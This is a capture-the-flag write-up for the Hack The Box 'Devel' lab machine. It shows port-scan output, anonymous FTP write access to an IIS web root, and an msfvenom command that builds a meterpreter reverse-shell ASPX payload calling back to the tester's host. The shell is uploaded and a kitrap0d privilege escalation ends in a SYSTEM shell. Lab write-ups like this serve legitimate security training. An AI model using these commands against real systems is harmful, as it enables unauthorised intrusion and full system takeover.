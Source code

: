 # Devel Writeup

![intro](assets/intro.png)

Target host:
Performed TCP portscan

```go
└──╼ $./rustscan -a 10.10.10.5 -- -sV -sC -A
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/nath/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.10.5:21
Open 10.10.10.5:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -A" on ip 10.10.10.5
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-11 18:17 AEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
Initiating Ping Scan at 18:17
Scanning 10.10.10.5 [2 ports]
Completed Ping Scan at 18:17, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:17
Completed Parallel DNS resolution of 1 host. at 18:17, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:17
Scanning 10.10.10.5 [2 ports]
Discovered open port 80/tcp on 10.10.10.5
Discovered open port 21/tcp on 10.10.10.5
Completed Connect Scan at 18:17, 0.51s elapsed (2 total ports)
Initiating Service scan at 18:17
Scanning 2 services on 10.10.10.5
Completed Service scan at 18:17, 6.79s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.5.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:17
NSE: [ftp-bounce 10.10.10.5:21] PORT response: 501 Server cannot accept argument.
Completed NSE at 18:17, 7.53s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 3.08s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.32s latency).
Scanned at 2023-04-11 18:17:21 AEST for 18s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:17
Completed NSE at 18:17, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```

When I browse to the HTTP server open on port 80, I see the following.
![1](assets/1.png)

It's very clear that this server is a Windows host and is running outdated software, as my Google search results are flooded with ISS 7 exploit POCs

The port scan also shows an FTP server open on port 21.
Before we go any further, let's check if anonymous authentication is enabled on the FTP server.

As seen in the output below, the anonymous user is enabled and anyone can log in with a blank password.
```bash
└──╼ $ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:nath): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Interestingly, it looks like the user also has read and write access to the directory. It is also being used at wwwroot for the web server.
```bash
ftp> put test_file.txt
local: test_file.txt remote: test_file.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
04-11-23  11:29AM       <DIR>          BEWQBHECDI
03-17-17  05:37PM                  689 iisstart.htm
04-11-23  11:29AM       <DIR>          JPEOMRLDFT
04-11-23  11:32AM       <DIR>          PGMYJXEYHO
04-11-23  11:39AM                 2944 shell.aspx
04-11-23  12:52PM                    0 test_file.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete
```

Effectively this means that I could upload a reverse shell and execute it through the web browser.

From here I generated a reverse shell payload using msfvenom with the following command.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=4444 -f aspx > shell.aspx
```

## Reverse Shell
I uploaded the reverse shell as seen in the output below.
```bash
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2944 bytes sent in 0.00 secs (15.3422 MB/s)
```

Once the shell was uploaded to the FTP server, I started the meterpreter exploit/multi/handler and browsed to the reverse shell in the IIS root directory.
```bash
[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.16.5:4444 -> 10.10.10.5:49172) at 2023-04-11 20:01:15 +1000

(Meterpreter 1)(c:\windows\system32\inetsrv) > shell
Process 560 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

We have a shell!

While the shell was open, I backgrounded the session and performed a search for exploits with the Metasploit exploit suggester.

The following is a list of vulnerabilities that were present on the machine.
```bash
 1   exploit/windows/local/bypassuac_eventvwr
 2   exploit/windows/local/ms10_015_kitrap0d
 3   exploit/windows/local/ms10_092_schelevator
 4   exploit/windows/local/ms13_053_schlamperei
 5   exploit/windows/local/ms13_081_track_popup_menu
 6   exploit/windows/local/ms14_058_track_popup_menu
 7   exploit/windows/local/ms15_004_tswbproxy
 8   exploit/windows/local/ms15_051_client_copy_image
 9   exploit/windows/local/ms16_016_webdav
 10  exploit/windows/local/ms16_032_secondary_logon_handle_privesc
 11  exploit/windows/local/ms16_075_reflection
 12  exploit/windows/local/ntusermndragover
 13  exploit/windows/local/ppr_flatten_rec
```

## System Shell
At this point, I attempted a few exploits that were partially successful but ended in failure because the session could not be created. Though the machine was vulnerable to a number of these vulnerabilities, not all exploitation primitives existed for many of the exploits on this list. This was one of the major contributing factors as to why a session could be created at the end of a successful exploitation attempt.

After much trial and error though, I found an exploit that actually worked and got me a system shell.
```bash
[msf](Jobs:0 Agents:1) exploit(windows/local/ms10_015_kitrap0d) >> run

[*] Started reverse TCP handler on 10.10.16.5:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 3644 launched.
[*] Reflectively injecting the DLL into 3644...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.16.5:4444 -> 10.10.10.5:49173) at 2023-04-11 20:08:25 +1000

(Meterpreter 2)(c:\windows\system32\inetsrv) > shell
Process 1304 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```